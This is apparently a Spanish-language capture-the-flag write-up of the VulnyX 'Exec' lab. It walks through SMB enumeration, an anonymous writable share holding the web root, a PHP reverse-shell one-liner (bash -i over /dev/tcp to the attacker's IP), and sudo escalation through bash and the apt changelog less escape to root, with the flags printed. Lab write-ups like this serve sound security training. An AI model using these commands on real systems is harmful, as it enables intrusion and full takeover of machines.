 
### WRITEUP - VULNYX - EXEC ##

## Scanning Network ##
```shell
netdiscover -r 10.0.2.0/24
```
Currently scanning: Finished!   |   Screen View: Unique Hosts                                                    
                                                                                                                  
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                                                  
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.2.1        52:54:00:12:35:00      1      60  Unknown vendor                                                 
 10.0.2.2        52:54:00:12:35:00      1      60  Unknown vendor                                                 
 10.0.2.3        08:00:27:8f:22:b9      1      60  PCS Systemtechnik GmbH                                         
 10.0.2.7        08:00:27:15:3c:0d      1      60  PCS Systemtechnik GmbH 


first nmap
nmap services
	$ smb(smbd 4.6.2), http (apache 2.4.57 misma CVE que en Hacking station), ssh, netbios
## Enumeration ##
nmap netbios
```shell
	nmap -p139,445 --script nbstat 10.0.2.7
```
smb client
```shell
	smbclient -L //10.0.2.7 -U "" -N > enumeration/smbclient_list
```
Probamos a conectarnos a algúno de los shares con contraseña en blanco. Lo conseguimos en el share server
```shell
	$ smbclient //10.0.2.7/server -U ""
	Password for [WORKGROUP\]:
	Try "help" to get a list of possible commands.
	smb: \>
```
Podemos listar el directorio y vemos un index.html. Tiene pinta que aquí es donde se hostea el servicio web 
```shell
	smb: \> ls
	  .                                   D        0  Mon Apr 15 04:45:54 2024
	  ..                                  D        0  Mon Apr 15 04:04:12 2024
	  index.html                          N    10701  Mon Apr 15 04:04:31 2024

	                19480400 blocks of size 1024. 16499224 blocks available
```
Esto lo tendremos en cuenta para poder introducir una reverse shell
Procedemos a enumerar smb con enum4linux -r 10.0.2.7 mientras miramos el servicio web
En el servicio web nos encontramos la págia por defecto de un servicio apache, por lo que poco podemos hacer.

<img src="https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Exec/contents/1.png">

Mientras revisamos el enum4linux, podemos ir tirando un dirbuster y recoger posibles rutas adicionales en el servicio
web
```shell
	dirb http://10.0.2.7:80
```
Nada interesante en el dirbuster
pero en el enum4linux, obtenemos un usuario llamado s3cur4.

### Weaponization/Gaining access ###
Ya que tenemos un acceso por un share, vamos a probar a copiarnos una reverse shell en php por ejemplo y probar a ejecutarla
Vamos a montarnos una particion para poder realizar las acciones necesarias de forma más sencilla
```shell
	mkdir /mnt/Exec
	mount -t cifs -o user="" -o password="" //10.0.2.7/server /mnt/Exec
```
Creamos el script, lo copiamos y nos ponemos a la escucha:
```shell
 	cp reverse_shell.php /mnt/Exec
	#<?php exec("bash -c 'bash -i >& /dev/tcp/10.0.2.4/443 0>&1'");?>
	nc -nlvp 443
```
Una vez hecho esto vamos a ver si se carga en el servidor y ejecuta nuestro script php

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Exec/contents/2.png>

Tenemos acceso al servidor. Ahora vamos a tratar la shell:
```shell
	script /dev/null -c bash
 	ctl+z
  	stty raw -echo;fg
   	reset xterm
    	export TERM=xterm
```
### Privilege escalation ###
Vemos que somos www-data y que no tenemos permisos aparentes
```shell
	www-data@exec:/var/www/html$ whoami
	www-data
	www-data@exec:/var/www/html$ id
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Por el enum4linux lanzado anteriormente, sabemos que existe un usuario local llamado s3cur4 pero no tenemos acceso
a su home para obtener la flag:
```shell
	www-data@exec:/var/www/html$ ls -la /home/s3cur4/
	ls: cannot open directory '/home/s3cur4/': Permission denied
```
Viendo si tenemos permisos con sudo, podemos ver que tenemos acceso a una bash siendo s3cur4:
```shell
	www-data@exec:/var/www/html$ sudo -l
		Matching Defaults entries for www-data on exec:
    			env_reset, mail_badpass,
    			secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    			use_pty

		User www-data may run the following commands on exec:
    			(s3cur4) NOPASSWD: /usr/bin/bash
```
Podemos abusar de este permiso con www-data y que nos devuelva una bash:
```shell
	sudo -u s3cur4 /bin/bash
```
Obtenemos una shell como s3cur4
```shell
	www-data@exec:/var/www/html$ sudo -u s3cur4 /bin/bash
	s3cur4@exec:/var/www/html$ whoami
	s3cur4
```
Una vez dentro como el usuario, buscamos y obtenemos la flag:
```shell
	s3cur4@exec:/var/www/html$ ls -la /home/s3cur4/
	total 28
	drwx------ 3 s3cur4 s3cur4 4096 Apr 15 10:56 .
	drwxr-xr-x 3 root   root   4096 Apr 15 09:56 ..
	lrwxrwxrwx 1 root   root      9 Apr 15 10:53 .bash_history -> /dev/null
	-rw-r--r-- 1 s3cur4 s3cur4  220 Nov 15 10:23 .bash_logout
	-rw-r--r-- 1 s3cur4 s3cur4 3526 Nov 15 10:23 .bashrc
	drwxr-xr-x 3 s3cur4 s3cur4 4096 Apr 15 10:17 .local
	-rw-r--r-- 1 s3cur4 s3cur4  807 Nov 15 10:23 .profile
	-r-------- 1 s3cur4 s3cur4   33 Apr 15 10:56 user.txt
	s3cur4@exec:/var/www/html$ cat /home/s3cur4/user.txt 
	45e398cc820ab08df0e3a414eac58fef
```
Ahora, procederemos a escalar a root.
Identificamos los permisos del usuario sobre sudo.
```shell
s3cur4@exec:/var/www/html$ sudo -l
	Matching Defaults entries for s3cur4 on exec:
    	env_reset, mail_badpass,
    	secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    	use_pty

	User s3cur4 may run the following commands on exec:
    		(root) NOPASSWD: /usr/bin/apt
```
Observamos que tenemos permisos para ejecutar un binario llamado : */usr/bin/apt*. Analizamos el comportamiento de
este binario
```shell
	s3cur4@exec:/var/www/html$ sudo /usr/bin/apt
	apt 2.6.1 (amd64)
	Usage: apt [options] command

	apt is a commandline package manager and provides commands for
	searching and managing as well as querying information about packages.
	It provides the same functionality as the specialized APT tools,
	like apt-get and apt-cache, but enables options more suitable for
	interactive use by default.

	Most used commands:
	  list - list packages based on package names
	  search - search in package descriptions
	  show - show package details
	  install - install packages
	  reinstall - reinstall packages
	  remove - remove packages
	  autoremove - automatically remove all unused packages
	  update - update list of available packages
	  upgrade - upgrade the system by installing/upgrading packages
	  full-upgrade - upgrade the system by removing/installing/upgrading packages
	  edit-sources - edit the source information file
	  satisfy - satisfy dependency strings

	See apt(8) for more information about the available commands.
	Configuration options and syntax is detailed in apt.conf(5).
	Information about how to configure sources can be found in sources.list(5).
	Package and version choices can be expressed via apt_preferences(5).
	Security details are available in apt-secure(8).
	                                        This APT has Super Cow Powers.
```
Buscamos alguna forma de vulnerar el sistema con este comando. Dentro de GTFOBins, tenemos una entrada de *apt*

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Exec/contents/3.png>

Y observamos que podemos obtener una shell como root siguiendo los siguientes pasos:

<img src=https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Exec/contents/4.png>

Vamos a probar a utilizar el bypass por el changelog (como less) para obtener una shell como root. Para esto, usamos
el comando indicado y luego, dentro de la visualización con less, podemos escribir y ejecutar *!/bin/bash*

De esta forma obtenemos el acceso como root
```shell
	s3cur4@exec:/var/www/html$ sudo apt changelog apt
	Get:1 https://metadata.ftp-master.debian.org apt 2.6.1 Changelog [505 kB]
	Fetched 505 kB in 0s (1601 kB/s)
	root@exec:/var/www/html# whoami
	root
```
Una vez ya con acceso a root, tenemos control total de la máquina. Obtenemos el flag de root:
```shell
	root@exec:/var/www/html# ls -la /root/
	total 32
	drwx------  4 root root 4096 Apr 21 20:45 .
	drwxr-xr-x 18 root root 4096 Apr 15 09:48 ..
	lrwxrwxrwx  1 root root    9 Apr 15 10:53 .bash_history -> /dev/null
	-rw-r--r--  1 root root 3526 Apr 15 10:05 .bashrc
	-rw-------  1 root root   38 Apr 21 20:45 .lesshst
	drwxr-xr-x  3 root root 4096 Apr 15 09:57 .local
	-rw-r--r--  1 root root  161 Jul  9  2019 .profile
	drwx------  2 root root 4096 Apr 15 11:21 .ssh
	-r--------  1 root root   33 Apr 15 10:54 root.txt
	root@exec:/var/www/html# cat /root/root.txt 
	97d8adddb3a3aa8b63e28c2396c5e53f
```

